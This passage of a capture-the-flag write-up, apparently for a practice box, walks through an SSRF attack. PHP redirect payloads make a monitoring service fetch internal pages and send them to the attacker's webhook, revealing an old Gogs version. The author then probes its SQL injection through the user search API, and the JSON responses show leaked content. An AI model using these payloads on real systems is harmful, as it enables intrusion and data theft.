 Port 3000 was filtered. But I might be able to access it through the SSRF. I changed my redirection.

```php
<?php
header("Location: http://localhost:3000/");
```

And sent my payload again. This time I got the content of a different site in the webhook payload.

```json
{
  "webhookUrl":"http:\/\/10.10.14.6:8000\/payload",
  "monitoredUrl":"http:\/\/10.10.14.6\/redirect.php",
  "health":"up",
  "body":"<!DOCTYPE html>\n<html>\n\t<head data-suburl=\"\">\n\t\t
  ...
  <meta name=\"author\" content=\"Gogs - Go Git Service\" \/>\n\t\t
  <meta name=\"description\" content=\"Gogs(Go Git Service) a painless self-hosted Git Service written in Go\" \/>\n\t\t
  <meta name=\"keywords\" content=\"go, git, self-hosted, gogs\">
  ...
  \u00a9 2014 GoGits \u00b7 Version: 0.5.5.1010 Beta 
  ...
  ",
  "message":"HTTP\/1.0 302 Found",
  "headers":{"Host":"10.10.14.6","Date":"Thu, 05 Jan 2023 12:32:06 GMT","Connection":"close","X-Powered-By":"PHP\/8.1.12","Location":"http:\/\/localhost:3000\/","Content-type":"text\/html; charset=UTF-8","Content-Type":"text\/html; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0"}
  }
```

I removed the content, but we can see that the server had a very old beta version (0.5.5.1010 Beta) of [Gogs](https://gogs.io/).

## SQL Injection

I searched for known vulnerabilities in this version of Gogs and found that it was vulnerable to [SQL Injection](https://www.exploit-db.com/exploits/35238). ExploitDB had two proofs of concept (POC). The user search was simpler, so I tried this one first.

I started by trying the user search feature. 

```php
<?php
header('Location: http://localhost:3000/api/v1/users/search?q=a');
```

It gave me a user back. 

```json
{
  "webhookUrl": "http://10.10.14.6:8000/payload",
  "monitoredUrl": "http://10.10.14.6/redirect.php",
  "health": "up",
  "body": "{\"data\":[{\"username\":\"susanne\",\"avatar\":\"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}",
  "message": "HTTP/1.0 302 Found",
  "headers": {
    "Host": "10.10.14.6",
    "Date": "Thu, 05 Jan 2023 12:51:23 GMT",
    "Connection": "close",
    "X-Powered-By": "PHP/8.1.12",
    "Location": "http://localhost:3000/api/v1/users/search?q=a",
    "Content-type": "text/html; charset=UTF-8",
    "Content-Type": "application/json; charset=UTF-8",
    "Set-Cookie": "_csrf=; Path=/; Max-Age=0",
    "Content-Length": "111"
```